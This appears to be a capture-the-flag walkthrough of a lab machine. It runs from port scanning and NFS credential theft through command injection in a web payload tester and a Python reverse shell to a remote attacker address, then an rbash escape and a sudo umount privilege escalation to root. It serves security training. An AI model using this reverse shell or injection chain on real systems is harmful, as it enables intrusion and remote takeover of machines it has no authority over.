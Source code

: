 ## Enumeration
```
 rustscan -a 10.10.7.155
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Port scanning: Making networking exciting since... whenever.

[~] The config file is expected to be at "/home/k21/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.7.155:22
Open 10.10.7.155:111
Open 10.10.7.155:2049
Open 10.10.7.155:8080
Open 10.10.7.155:35145
Open 10.10.7.155:45441
Open 10.10.7.155:49801
Open 10.10.7.155:57783
[~] Starting Script(s)
[~] Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-15 19:32 +0545
Initiating Ping Scan at 19:32
Scanning 10.10.7.155 [4 ports]
Completed Ping Scan at 19:32, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:32
Completed Parallel DNS resolution of 1 host. at 19:32, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 19:32
Scanning 10.10.7.155 (10.10.7.155) [8 ports]
Discovered open port 35145/tcp on 10.10.7.155
Discovered open port 2049/tcp on 10.10.7.155
Discovered open port 8080/tcp on 10.10.7.155
Discovered open port 111/tcp on 10.10.7.155
Discovered open port 49801/tcp on 10.10.7.155
Discovered open port 57783/tcp on 10.10.7.155
Discovered open port 45441/tcp on 10.10.7.155
Discovered open port 22/tcp on 10.10.7.155
Completed SYN Stealth Scan at 19:32, 0.20s elapsed (8 total ports)
Nmap scan report for 10.10.7.155 (10.10.7.155)
Host is up, received timestamp-reply ttl 60 (0.17s latency).
Scanned at 2025-02-15 19:32:16 +0545 for 0s

PORT      STATE SERVICE    REASON
22/tcp    open  ssh        syn-ack ttl 60
111/tcp   open  rpcbind    syn-ack ttl 60
2049/tcp  open  nfs        syn-ack ttl 60
8080/tcp  open  http-proxy syn-ack ttl 60
35145/tcp open  unknown    syn-ack ttl 60
45441/tcp open  unknown    syn-ack ttl 60
49801/tcp open  unknown    syn-ack ttl 60
57783/tcp open  unknown    syn-ack ttl 60

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.59 seconds
           Raw packets sent: 12 (504B) | Rcvd: 48 (10.220KB)


```

```
 nmap -sVC 10.10.7.155 -oA nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-15 19:31 +0545
Nmap scan report for 10.10.7.155 (10.10.7.155)
Host is up (0.22s latency).
Not shown: 996 closed tcp ports (reset)
Bug in rpcinfo: no string output.
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:44:62:91:90:08:99:5d:e8:55:4f:69:ca:02:1c:10 (RSA)
|   256 e5:a7:b0:14:52:e1:c9:4e:0d:b8:1a:db:c5:d6:7e:f0 (ECDSA)
|_  256 02:97:18:d6:cd:32:58:17:50:43:dd:d2:2f:ba:15:53 (ED25519)
111/tcp  open  rpcbind 2-4 (RPC #100000)
2049/tcp open  nfs     3-4 (RPC #100003)
8080/tcp open  http    Werkzeug httpd 0.14.1 (Python 3.6.9)
|_http-title: CCHQ
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.71 seconds

```

We can find this at port 8080.
![](Pasted%20image%2020250215193637.png)

And this after doing a quick directory busting.
![](Pasted%20image%2020250215193707.png)
And we can do this,
`showmount -e 10.10.7.155
`
![](Pasted%20image%2020250215200242.png)

And this,
`sudo mount -t nfs 10.10.7.155:/var/nfs/general /mnt/nfs`
![](Pasted%20image%2020250215200257.png)

And we got the credentials.bak.
```
paradoxial.test
ShibaPretzel79
```
And we logged in successfully.
![](Pasted%20image%2020250215200510.png)
So its saying we can test a payload and then i tried this.
![](Pasted%20image%2020250215200920.png)
Hmmm lets try to use '&' and '|' which might work.
Lets run this after '&' or '|'.
`ping tun0 -c 2`

And lets see if it pings or not.
`sudo tcpdump -i tun0 icmp `

And we can see it works.
![](Pasted%20image%2020250215201523.png)
![](Pasted%20image%2020250215201550.png)

Now lets try to get a reverse shell.
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.11.3",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`

And we got it.
![](Pasted%20image%2020250215201754.png)
After this, we can see this.
![](Pasted%20image%2020250215202239.png)
And,
```
paradox@cchq:/home/szymex$ cat SniffingCat.py
#!/usr/bin/python3
import os
import random

def encode(pwd):
    enc = ''
    for i in pwd:
        if ord(i) > 110:
            num = (13 - (122 - ord(i))) + 96
            enc += chr(num)
        else:
            enc += chr(ord(i) + 13)
    return enc


x = random.randint(300,700)
y = random.randint(0,255)
z = random.randint(0,1000)

message = "Approximate location of an upcoming Dr.Pepper shipment found:"
coords = "Coordinates: X: {x}, Y: {y}, Z: {z}".format(x=x, y=y, z=z)

with open('/home/szymex/mysupersecretpassword.cat', 'r') as f:
    line = f.readline().rstrip("\n")
    enc_pw = encode(line)
    if enc_pw == "pureelpbxr":
        os.system("wall -g paradox " + message)
        os.system("wall -g paradox " + coords)
paradox@cchq:/home/szymex$ 

```

And we can also see a crontab.
![](Pasted%20image%2020250215202731.png)
Hmmm so if we could do something with that .py file, we might do something.
And after bit talk with GPTs,that password(encrypted) can be reversed and it is just rot13.
![](Pasted%20image%2020250215204945.png)

And we can also use script.
```
def decode(enc):
    dec = ''
    for i in enc:
        if ord(i) > 109:  # Characters above 'm' (ASCII 109)
            num = ord(i) - 13
            if num < 97:  # If it goes below 'a' (ASCII 97), wrap around
                num = 122 - (96 - num)
            dec += chr(num)
        else:
            dec += chr(ord(i) + 13)
    return dec

# Encoded password
enc_pw = "pureelpbxr"

# Decode and print the password
print("Decoded Password:", decode(enc_pw))

```

And we got the password.
`cherrycoke`.
![](Pasted%20image%2020250215205136.png)

Lets login with user `szymex`.
![](Pasted%20image%2020250215205236.png)
And we can also see interesting group.
`1004(testers)`

We can use this command.
`find / -group testers \( -readable -o -writable \) 2>/dev/null
`
And we got few things.
![](Pasted%20image%2020250215210014.png)
```
szymex@cchq:~$ find / -group testers \( -readable -o -writable \) 2>/dev/null
/home/tux/tuxling_3
/home/tux/tuxling_3/note
/home/tux/tuxling_1
/home/tux/tuxling_1/nootcode.c
/home/tux/tuxling_1/note

/media/tuxling_2
/media/tuxling_2/private.key
/media/tuxling_2/note
/media/tuxling_2/fragment.asc

```

Found a lots of things.
![](Pasted%20image%2020250215210552.png)
![](Pasted%20image%2020250215210634.png)
Also we can find this.
```
szymex@cchq:/home/tux/tuxling_3$ ls
note
szymex@cchq:/home/tux/tuxling_3$ cat note 
Hi! Kowalski here. 
I was practicing my act of disappearance so good job finding me.

Here take this,
The last fragment is: 637b56db1552

Combine them all and visit the station.

```

And this strings from that c program, it might be that fragment too.
`f96050ad61`.
Ohh Now I understand we need to find all that fragments.
So,
1-->f96050ad61
2-->6eaf62818d
3-->637b56db1552

And we can find this.
![](Pasted%20image%2020250215211710.png)
Firstly,lets import that private key.
`gpg --import private.key
`
And then,decrypt it.
`gpg --decrypt fragment.asc

![](Pasted%20image%2020250215211928.png)
And we got a last one.

With that, we have all.
1-->f96050ad61
2-->6eaf62818d
3-->637b56db1552

`f96050ad616eaf62818d637b56db1552`

But what is it.
Ohh it was md5 hash.
![](Pasted%20image%2020250215212247.png)
We got the password.
`tuxykitty`.
![](Pasted%20image%2020250215212402.png)
And we can see this.
![](Pasted%20image%2020250215212654.png)
Hmmm lets check it out.
![](Pasted%20image%2020250215212715.png)
Hmm.
We can also see a new group.
Lets again find.
`find / -group os_tester \( -readable -o -writable \) 2>/dev/null`
![](Pasted%20image%2020250215213847.png)
We can also see this.
![](Pasted%20image%2020250215213916.png)
There is a .git directory.
Lets go there and enumerate.
![](Pasted%20image%2020250215214714.png)
And we can see more by this.
`git show 6919df5c171460507f69769bc20e19bd0838b74d`
![](Pasted%20image%2020250215214930.png)

And that might be a password needed before.
`slowroastpork`.
Lets see.
And it worked.
![](Pasted%20image%2020250215215120.png)
But its a rbash shell.
![](Pasted%20image%2020250215215228.png)
And we can go to normal shell by this.
```
Run vi or vim.

Enter command mode(ESC) and type
:set shell=/bin/sh
:shell

and then,
/bin/bash

```

![](Pasted%20image%2020250215215607.png)
Now lets become root.
And we can see this.
![](Pasted%20image%2020250215220013.png)
Now after a quick search we can see this.
`https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-umount-privilege-escalation/`

So we are gonna do.
`cat /etc/fstab`
We will see mounted directory.
![](Pasted%20image%2020250215220816.png)

Then,we will do this.
`sudo /bin/umount /opt/CooctFS`
If we unmount this folder, original files, that existed before the directory is mounted, may appear.
And we can see that.
![](Pasted%20image%2020250215221321.png)
And its a root directory.
And there is another twist.
![](Pasted%20image%2020250215221421.png)
Hmmmm.
But we now have a root access by a ssh.
![](Pasted%20image%2020250215221514.png)
And we are root.
![](Pasted%20image%2020250215221656.png)
But where is a root flag.
Ohh it just appears when we get logged as root.
![](Pasted%20image%2020250215222008.png)

And done.
![](Pasted%20image%2020250215222116.png)
